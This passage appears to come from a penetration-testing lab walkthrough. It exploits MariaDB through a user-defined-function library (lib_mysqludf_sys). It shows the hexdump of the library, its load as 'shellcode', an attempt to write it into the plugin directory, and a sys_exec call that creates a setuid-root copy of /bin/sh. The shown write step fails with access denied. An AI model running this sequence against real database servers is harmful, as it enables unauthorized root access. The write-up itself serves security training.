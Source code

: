 The -Wall flag enables all of gcc's warning messages and -I includes the directory of header files. The list included in the command found in Listing 60 are common locations for header files for MariaDB. The -shared flag tells gcc this is a shared library and to generate a shared object file. Finally, -o tells gcc where to output the file.

Recalling the SQL commands from the UDF exploit, to transfer the shared library to the target database server, we will need the file as a hexdump.

```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

To do so we can use the following command:

```
kali@kali:~/lib_mysqludf_sys$ xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```

The xxd command is used to make the hexdump and the -p flag outputs a plain hexdump, which makes it easier for further manipulation. We use tr to delete the new line character and then dump the contents of the output to a file named lib_mysqludf_sys.so.hex.

The contents of the lib_mysqludf_sys.so.hex file is what we will use for shellcode.

We have everything that we need to attempt to exploit Zora. Now we just need to put it together. Before we begin running the malicious SQL commands, we will create a variable in MariaDB for the shellcode. The contents of this variable are obtained from the lib_mysqludf_sys.so.hex file.

```
MariaDB [(none)]> set @shell = 0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000000;
```

Note the addition of "0x" to the beginning of the shellcode and the lack of single or double quotes. This is necessary for MariaDB to read the text as binary. Next, per the exploit instructions, we will confirm the location of the plugin directory.

```
MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir      |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
1 row in set (0.072 sec)
```

As expected, the plugin directory is in /home/dev/plugin/. Next, we need to output the shellcode to a file on Zora. The original exploit generates a random filename for this, but we can name it whatever we want. The command in Listing 65 tells MariaDB to treat the contents of the _@shell_ variable as binary and to output it to the /home/dev/plugin/udf_sys_exec.so file.

```
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)
MariaDB [(none)]>
```

Unfortunately, this is where we encounter our first problem. According to the error message above, the wp user does not have permissions to create files.